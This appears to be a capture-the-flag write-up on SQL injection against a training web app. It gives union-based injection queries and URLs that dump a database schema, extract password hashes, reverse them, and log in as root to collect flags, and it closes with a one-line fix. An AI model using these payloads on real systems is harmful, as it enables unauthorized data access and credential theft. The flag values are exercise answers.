 # SQL injection
## Table users
The member search page allows SQL injection.
http://192.168.99.100/?page=member

Searching for user ID 5 returns the following: `First name: Flag \n Surname: GetThe`. ID 4 and 6 don't exist.

Putting the following query in the member search input will get us the DB schema:
`1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns`
http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#
This reveals that the users table has the following columns:
`user_id, first_name, last_name, town, country, planet, Commentaire, countersign`

The following query will reveal something about GetThe Flag (the second query needs to have exactly 2 columns):
`1 AND 1=2 UNION SELECT Commentaire, countersign FROM users WHERE 1=1`
http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+Commentaire%2C+countersign+FROM+users+WHERE+1%3D1&Submit=Submit#
Commentaire: `Decrypt this password -> then lower all the char. Sh256 on it and it's good !`
countersign: `5ff9d0165b4f92b14994e5c685cdce28`
Looks like hex but that only returns garbage. Paste into Google and you get a few results for reverse MD5 hashes. It decodes as `FortyTwo`.
https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28

sha256(`fortytwo`) =>
Flag: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Table list_images
With the link above we can find out that there is a table called `list_images`:
(http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#)

Its schema is:
`id, url, title, comment`

This table is in a different database so we need to use a different URL (`page=searchimg`) to inject it. The interesting data is in the `comment` column.
http://192.168.99.100/?page=searchimg&id=1+AND+1%3D2+UNION+SELECT+comment%2C+title+FROM+list_images+WHERE+1%3D1&Submit=Submit#

ID 5's comment is `If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`

It decodes as `albatroz`: https://md5.gromweb.com/?md5=1928e8083cf461a51303633093573c46
sha256(`albatroz`) =>
Flag: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

## Table db_default
With the following link above we find that there is a database called `Member_Brute_Force` with table called `db_default`:
http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_schema%2C+table_name+FROM+information_schema.tables&Submit=Submit#

With the following query we find that the table has 3 columns: `id, username, password`:
http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#

With the following query we can get a list of users with their usernamd and password:
`1 AND 1=2 UNION SELECT username, password FROM Member_Brute_Force.db_default`
(http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+username%2C+password+FROM+Member_Brute_Force.db_default&Submit=Submit#)

2 accounts: `root, admin`. Both have the same password hash `3bf1114a986ba87ed28fc1b5884fc2f8`.
`reverseMD5('3bf1114a986ba87ed28fc1b5884fc2f8')` == shadow
(https://md5.gromweb.com/?md5=3bf1114a986ba87ed28fc1b5884fc2f8)

Log in using the form to get a flag:
http://192.168.99.100/index.php?page=signin&username=root&password=shadow&Login=Login#

# How to fix
Use prepared statements or escape database input.

